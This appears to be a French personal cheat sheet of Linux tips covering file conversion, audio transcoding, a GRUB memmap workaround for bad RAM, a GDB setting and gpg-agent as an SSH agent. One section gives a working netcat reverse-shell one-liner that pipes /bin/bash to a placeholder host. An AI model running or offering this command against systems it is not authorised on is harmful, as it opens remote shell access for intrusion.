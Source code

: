 ## Conversion

>   * Pour convertir un BIN, MDF, PDI, CDI, NRG et B5I, en ISO : `iat`
>
>   * Remplacements dans tous les fichiers sources d’un répertoire :
>  
>     >     find . -name "*.py" -print | xargs sed -i
> 's/recherche/remplacement/g
>  
>
>   * Transcodage ogg vers mp3 :
>  
>     >     for i in *.ogg; do sox -S "$i" "${i%.ogg}.mp3"; done
>  
>
>   * Transcodage mp3 vers ogg :
>  
>     >     mpg123 -w - fichier.mp3 | oggenc -q0 -o fichier.ogg -
>  
>
>

## Ram défectueuse

Warning

D’expérience, c’est une mauvaise idée car votre RAM est en train de mourir, et
sera vite défectueuse un peu partout.

Si une zone de la ram est défectueuse avec memtest (et seulement une zone
précise !), il suffit de modifier la configuration de GRUB en ajoutant par
exemple, aux paramètres de boot passés à Linux :

    
    
    memmap=2M\$722M
    

Ici, le 2M est la taille de la zone à bannir, et 722M le début de la zone à
bannir.

Le backslash avant le dollar est nécessaire car ce dernier est un caractère
spécial pour GRUB.

## GDB

Empêcher GDB d’arrêter le programme si il reçoit un SIGPIPE :

    
    
    handle SIGPIPE nostop noprint pass
    

## Reverse shell

Pour ouvrir un reverse shell :

    
    
    mknod /tmp/bp p && nc YOURIP 8080 0</tmp/bp | /bin/bash 1>/tmp/bp
    

## Utiliser gpg-agent comme agent SSH

Assurez-vous que votre gpg-agent est bien configuré pour faire aussi agent
SSH, puis, rajoutez ceci dans votre `.(bash|zsh)rc` :

    
    
    export SSH_AUTH_SOCK=~/.gnupg/S.gpg-agent.ssh
    gpgconf --launch gpg-agent
    

GPG utilise tout le temps le même socket, mais il faut lancer l’agent à la
main pour qu’il puisse être utilisé par SSH.

